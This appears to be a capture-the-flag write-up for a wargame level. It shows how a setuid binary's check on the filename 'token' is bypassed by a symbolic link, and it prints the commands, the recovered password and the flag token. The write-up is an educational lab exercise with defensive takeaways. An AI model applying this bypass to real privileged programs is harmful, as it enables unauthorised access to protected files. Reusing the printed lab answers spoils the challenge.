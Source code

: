 # Level08 Documentation

## Objective
Retrieve the token hidden in an inaccessible file named `token` by bypassing filename validation.

---

## Approach & Tools
- **Technique**: Symbolic link filename bypass
- **Commands**: `ln`, `su`, `getflag`,
---

## Step-by-Step Solution
once we log into level08 account we find a ```level08```nad ```token``` files
```bash
ls -la
```
#### output 
```bash
-rwsr-s---+ 1 flag08  level08 8617 Mar 5 2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

#### 1. Test Binary Behavior
The binary restricts access to files named "token":

```bash
./level08 token
```
#### Output:
```bash
You may not access 'token'
```
### 2. Bypass Filename Check
Create a symbolic link with a different name:
```bash
ln -s /home/user/level08/token /tmp/maflag
```
### 4. Read Through Symlink
```bash
./level08 /tmp/maflag
```
#### Output:
```bash
quif5eloekouj29ke0vouxean
```
### 5. Retrieve Level09 Token
```bash
su flag08
Password: quif5eloekouj29ke0vouxean
getflag
```
#### Output:
```bash
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
### Key Takeaways
* Symbolic Links Bypass Checks: Changing the apparent filename can bypass simple string checks

* Permission Inheritance: Symlinks maintain original file permissions

* Defensive Programming: Always verify file contents, not just names